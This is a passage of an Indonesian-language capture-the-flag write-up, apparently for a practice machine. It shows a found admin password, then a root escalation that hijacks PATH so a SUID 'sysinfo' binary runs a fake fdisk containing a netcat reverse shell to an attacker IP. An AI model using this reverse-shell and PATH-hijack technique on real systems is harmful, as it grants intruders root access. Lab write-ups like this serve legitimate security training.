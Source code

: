 Dapat creds admin:Th3s3usW4sK1ng untuk su di terminal

![Image](img/9.PNG)

### Root

Menggunakan enumeration script untuk linux seperti LinEnum.sh kita bisa menemukan binary SUID yang tidak biasanya ada, bernama sysinfo

```
-rwsr-x--- 1 root users 22040 Oct 21  2019 /bin/sysinfo
```

Binary ini sebenarnya menjalankan binary built in lainnya

- Hardware Info = lshw -short

- Disk Info = fdisk -l

- CPU Info = cat /proc/cpuinfo

- Mem Usage = free -h

Jadi kita akan menipu script yang running as root ini untuk menjalankan binary fdisk yang sudah kita modifikasi, dengan membuat custom binary yang isinya reverse shell payload dan kita rubah path variablenya ke tempat custom binary kita

- cd /tmp

- touch fdisk

- echo “/tmp/netcat -e /bin/bash 10.1014.6 4444” > fdisk

- export PATH=/tmp:$PATH

- chmod +x fdisk netcat

- sysinfo

# Rooted !